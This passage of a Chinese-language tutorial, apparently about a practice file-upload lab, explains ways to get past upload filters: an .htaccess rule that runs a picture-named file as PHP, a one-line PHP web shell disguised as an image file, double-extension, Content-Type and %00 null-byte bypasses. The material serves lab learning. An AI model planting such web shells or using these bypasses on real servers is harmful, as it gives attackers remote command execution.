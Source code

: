 ```php
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```



.htaccess 绕过

`.htaccess` 文件，（Hypertex Access超文本）入口是 Apache 的配置文件，用于执行目录下的网页配置。

在 Upload-04 中，我们可以上传 `.htaccess` 文件

准备两个文件 `.htaccess` 和 `wukaipeng.png`：

```xml
<!-- .htaccess文件 -->
<FilesMatch "wukaipeng.jpg">
Sethandler application/x-httpd-php
</FilesMatch>
```

```php
/* wukaipeng.png */
<?php eval(@$_POST['cmd']); ?>
```



然后分别上传，之后在蚁剑测试链接

![](http://img.wukaipeng.com/2023/10/21-171404-image-20231021171404530.png)



### 双写绕过

在 pass11 中，可以利用双写后缀绕过，比如 `info.php` 👉 `info.pphphp`



## 服务端 - 白名单绕过

### MIME 类型绕过

在 pass02 中，我们可以修改 `Content-Type` 来绕过

![](http://img.wukaipeng.com/2023/10/22-091351-image-20231022091351272.png)

### 00 截断绕过

00 截断绕过是系统漏洞，操作系统底层是 C 语言 or 汇编语言的，这两种语言都以 `\0` 作为字符串的结束标志。00 截断是指插入 `\0`，从而达到字符串截断的目的。

`\0` 是 ASCII 码表中的第 0 个字符，英文名为 `NUL`。`\0` 是在底层操作系统的表现形式，在前端输入不能直接输入 `\0`，而应该使用 `%00` 或者 `0x00`：

`%00`：URL 中 `%00` 表示 ASCII 码为 `0` 的字符，该字符为特殊字符保留，表示字符串结束。当 URL 出现 `%00` 时就认为读取已经结束，而忽略后面上传的文件或图片，只上传截断前的文件。

`0x00`：`%00` 解码成十六进制形式。
